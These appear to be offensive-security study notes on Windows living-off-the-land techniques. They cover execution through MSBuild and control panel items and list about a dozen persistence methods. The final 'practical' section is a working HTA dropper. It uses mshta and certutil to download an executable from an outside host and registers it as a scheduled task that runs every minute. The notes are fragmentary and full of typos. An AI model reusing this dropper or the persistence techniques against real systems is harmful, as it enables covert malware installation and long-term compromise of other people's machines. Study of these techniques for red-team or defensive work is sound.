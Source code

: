 5. building Msbuild to build binary in target system

Msbuild.exe C:\bad\bad.xml

6. code execution through control panel add ins 
forcing explorer.exe to load your DLL that is compiled as a control panel item adn registered as a control panel add in

7. executing control panel item thorugh an exported cplappler function

dll is compiled and made into .cpl

## Persistence

1. DLLs through using persistence
2. schtask - code execution, privilege escalation, lateral movement and persistence.
3. Service execution, privilege escalation.
4. window logon helper
5. hijacking default file extension
6. Persisting in svchost.exe with a serviec dll
7. modifying .lnk shortcuts
8. screensaver hijack
9. using bitsadmin
10. COM hijacking - component object model -  like activeX
11. Powershell profile persistance
12. word library add ins
13. Office templatesadd ins

# practical 
1. initial access
2. code execution

these are done through LOLBIN


## creating a lnk shortcut file that has reference to target directory

```
DAY-1
ipconfig
python -m http.server 8000
C:\Windows\System32\mshta.exe https://crank.gq/lab/1.hta 
<html>
<head>
<script language="jscript">
        var e = "cmd /c certutil -urlcache -split -f https://crank.gq/lab/1.exe c:/windows/tasks/1.exe";
        new ActiveXObject('WScript.Shell').Run(e,0,true);
        var y= 'schtasks /create /sc minute /mo 1 /tn "InitialAccess" /tr C:\\Windows\\Tasks\\1.exe';
        new ActiveXObject('WScript.Shell').Run(y,0,true);

</script>
</head>
<body>
<script>self.close();</script>
</body>
</html>
```
